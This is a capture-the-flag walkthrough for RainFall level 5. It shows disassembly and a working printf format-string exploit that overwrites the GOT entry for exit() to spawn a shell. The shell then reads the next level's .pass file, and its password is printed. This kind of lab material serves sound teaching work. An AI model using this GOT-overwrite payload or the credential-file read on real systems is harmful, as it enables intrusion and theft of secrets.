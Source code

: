 # Level 5

Another `printf` format string exploit, except this time we won't get a shell by setting a value to a variable, instead we have to call the function `o`...

```shell
r2 ./level5
[0x080483f0]> aaa
[...]
[0x080483f0]> afl
0x080483f0    1 33           entry0
[...]
0x080484a4    1 30           sym.o
[0x080483f0]> s sym.o
[0x080484a4]> pdf
┌ 30: sym.o ();
│           0x080484a4      55             push ebp
│           0x080484a5      89e5           mov ebp, esp
│           0x080484a7      83ec18         sub esp, 0x18
│           0x080484aa      c70424f08504.  mov dword [esp], str._bin_sh ; [0x80485f0:4]=0x6e69622f ; "/bin/sh" ; const char *string
│           0x080484b1      e8fafeffff     call sym.imp.system         ; int system(const char *string)
│           0x080484b6      c70424010000.  mov dword [esp], 1          ; int status
└           0x080484bd      e8cefeffff     call sym.imp._exit          ; void _exit(int status)
```

## Another day, Another %p

As usual let's check where our buffer starts in the stack
```shell
level5@RainFall:~$ ./level5 <<< `python -c 'print "0000" + "%p|"*20'`
00000x200|0xb7fd1ac0|0xb7ff37d0|0x30303030|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0xa|
level5@RainFall:~$ ./level5 <<< `python -c 'print "0000" + "%p|"*4'`
00000x200|0xb7fd1ac0|0xb7ff37d0|0x30303030|
level5@RainFall:~$ ./level5 <<< `python -c 'print "0000%4$p"'`
00000x30303030
```
Ok perfect, now what?

## Pesky exit

```asm
0x080484e5      e8b6feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
0x080484ea      8d85f8fdffff   lea eax, [format]
0x080484f0      890424         mov dword [esp], eax        ; const char *format
0x080484f3      e888feffff     call sym.imp.printf         ; int printf(const char *format)
0x080484f8      c70424010000.  mov dword [esp], 1          ; int status
0x080484ff      e8ccfeffff     call sym.imp.exit           ; void exit(int status)
```


What if we just replaced the address of `exit()` with the address of `o`? let's try!

## The GOT

The Global Offset Table holds the adresses of functions that are dynamically linked, luckily for us it is writeable!

First let's get the value of `exit` in the GOT, before the program can replace it
```shell
level5@RainFall:~$ gdb ./level5
[...]
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
(gdb) p o
$1 = {<text variable, no debug info>} 0x80484a4 <o>
```

We need to override the value of `0x8049838` with the address of `o`, `0x80484a4`
sadly, struct.pack() adds some padding when used with stdin, so we'll have to passes the address in little endian directly.
```shell
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%{}p".format(str(0x80484a4-4)) + "%4$n"'; cat -)  | ./level5 | tr -d ' '
0x200
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
🚀
